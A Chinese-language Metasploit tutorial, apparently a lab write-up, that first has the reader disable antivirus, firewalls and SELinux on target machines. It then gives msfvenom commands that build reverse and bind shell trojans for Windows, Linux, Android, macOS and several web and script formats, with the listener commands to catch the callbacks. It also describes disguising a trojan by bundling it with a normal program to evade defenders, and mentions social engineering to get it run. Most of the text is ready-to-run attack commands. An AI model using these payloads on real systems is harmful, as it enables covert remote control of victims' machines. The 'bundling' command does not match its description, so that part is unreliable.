## 实验环境

| 角色 | 系统 | IP |
| --- | --- | --- |
| 攻击机 | Kali Linux | 192.168.100.132 |
| 靶机 | Windows 10 | 192.168.100.150 |
| 靶机 | CentOS 6.5 | 192.168.100.163 |

## 环境准备

实验前需要关闭靶机防火墙，让木马能够正常回连。

Windows 下关闭安全中心的实时保护：









再关闭 Windows 防火墙：











Linux 下关闭 iptables 和 SELinux：

```bash
service iptables stop
setenforce 0
```



## Msfvenom 简介

`msfvenom` 是 `msfpayload` 和 `msfencode` 的结合体，可以生成木马程序，在目标机器上执行后配合 `meterpreter` 上线。

在 Kali 中使用 `msfvenom -h` 查看参数：

```bash
msfvenom -h
```

```text
用法：/usr/bin/msfvenom [options] <var=val>
示例：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
```

常用参数：

```text
-p, --payload <payload>   指定 payload
-f, --format <format>     输出格式，如 exe、elf、raw、asp、aspx
-e, --encoder <encoder>   指定编码器，如 x86/shikata_ga_nai
-i, --iterations <count>  编码次数
-b, --bad-chars <list>    避免出现的字符，如 '\x00\xff'
-a, --arch <arch>         指定架构，如 x86、x64
-o, --out <path>          输出文件
-x, --template <path>     指定捆绑的模板程序
-k, --keep                保留模板行为，把 payload 作为新线程注入
LHOST / LPORT             回连地址和端口
```



## 正向与反向

Msfvenom 生成的 payload 分为正向和反向两种：

- **正向连接（bind）**：目标机器打开一个端口，攻击机主动连接目标端口；
- **反向连接（reverse）**：攻击机监听端口，目标机器主动回连攻击机。

反向连接更常用，也更稳定；目标处于深层网络、无法主动出网时，才考虑正向连接。

## 各平台生成命令

```bash
# Android
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -o ~/Desktop/test2.apk

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f elf > shell.elf

# macOS
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f macho > shell.macho

# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=4444 -f raw -o test.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f asp > shell.asp

# ASPX
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f aspx > shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f raw > shell.jsp

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.10.27 LPORT=8888 -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.10.27 LPORT=8888 -f raw > shell.pl

# Python
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f raw > shell.py
```

## 反向木马

拿到 WebShell 或通过社会工程学让目标运行木马后，目标会主动把 shell 反弹到攻击机。

### Windows 平台

先在 Kali 上启动监听：

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.100.132
set lport 6666
exploit
```





生成反弹木马：

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.100.132 lport=6666 -f exe -o test.exe
```



把 `test.exe` 放到目标主机并运行：



成功上线 Meterpreter：





### 捆绑程序伪装

攻防演练中，蓝队会排查不明程序，直接运行木马很容易被发现。可以把木马捆绑到正常程序上，运行时功能正常，隐蔽性更好。

先启动监听：

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.100.132
set lport 6666
exploit
```


生成捆绑木马：

```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.132 lport=6666 -f exe -o test_win10.exe
```





把木马放到目标主机运行，可以看到弹出的是正常的 cmd 窗口：



成功上线：





### Linux 平台

启动监听：

```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.132
set lport 6666
exploit
```



生成木马：

```bash
# 32 位
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.132 LPORT=6666 -f elf > test.elf
# 64 位
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.132 LPORT=6666 -f elf > test.elf
```



把木马放到目标主机，默认没有可执行权限：

```bash
ls -l
```



赋予执行权限：

```bash
chmod +x test1.elf
```



执行木马：



成功反弹 shell：



## 正向木马

### Windows 平台

生成正向木马：

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=192.168.100.132 lport=6666 -f exe -o test2.exe
```



把木马放到目标服务器并运行：



使用 `multi/handler` 主动连接目标：

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.100.150
set lport 6666
exploit
```



### Linux 平台

生成正向木马：

```bash
msfvenom -p linux/x86/meterpreter/bind_tcp lhost=192.168.100.132 lport=6666 -f elf > test2.elf
```



把木马放到目标主机，同样先检查权限：

```bash
ls -l
```



赋予执行权限并运行：

```bash
chmod +x test2.elf
```





连接目标：

```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
set rhost 192.168.100.163
set lport 6666
exploit
```

